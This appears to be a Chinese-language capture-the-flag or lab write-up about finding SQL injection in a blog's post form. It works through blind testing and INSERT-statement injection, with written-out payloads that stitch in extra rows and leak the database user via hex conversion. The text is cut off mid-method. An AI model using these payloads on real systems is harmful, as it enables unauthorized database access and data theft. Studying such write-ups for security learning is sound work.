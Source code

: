 - 访问article_manage.php服务器相应500
- 访问manager.php提示登录

### 注入点

#### 测试注入

现在可能有存在有注入点的地方有：

- 登录2处
- 注册2处
- 发博客2处

最终测试发博客的两处加上单引号都会提示：Something wrong happened!，很有可能有注入点。但最终的回显只能在博客首页查看，所以sqlmap也许无法工作。这里提交只能看出sql语句是否被成功执行，也许可以采取基于时间的盲注，但这里sql利用的语法比较奇怪，sqlmap应该是无法得出存在注入的结果。在博客正文输入处测试如下:

```sql

a'or'1'='1    ->  1
a'or'1'='2    ->  0
a'and'1'='1   ->  0
a'and'1'='2   ->  0

```

#### 盲注？报错？联合查询？

- 这里如果只利用盲注的话未免太慢了，还是想办法带出数据为好
- 但是又没有输出报错信息，只有Something wrong happened!，无法进行报错注入
- 这是一个发博客的逻辑，应该不是select语句，无法联合查询

#### INSERT注入

因为这里是实现了一个发博客的功能，所以应该是把我们所提交的内容插入给数据库，猜测语句大概如下：

```sql
insert into article (date, title, content) values ('2018-03-21','inject here','content');
```

这里的利用方式有如下两种：

##### 插入元素拼接

```sql

[payload]:   1','2'),(user(),'

[sql]:       insert into article (date, title, content) values ('2018-03-21','1','2'),(user(),'','content');

[decode]:    select unhex(conv(125822936825964,10,16));
```

这样实际上就多了一条插入的记录，可以在下一条记录的相应的位置卡看到相应的数据，但采取此种方式注入，要先测验处字段数目以及那些字段的值最后是可见的。

首先检查`后字段`数目：

```sql
0')#
0','1')#
0','1','2')#
```


[payload]:  '+conv(hex(substr((user()),1,6),16,10)+'
[sql]:      insert into article (data, title, content) values ('2018-03-21',''+conv(hex(substr((user()),1,6),16,10)+'','content');
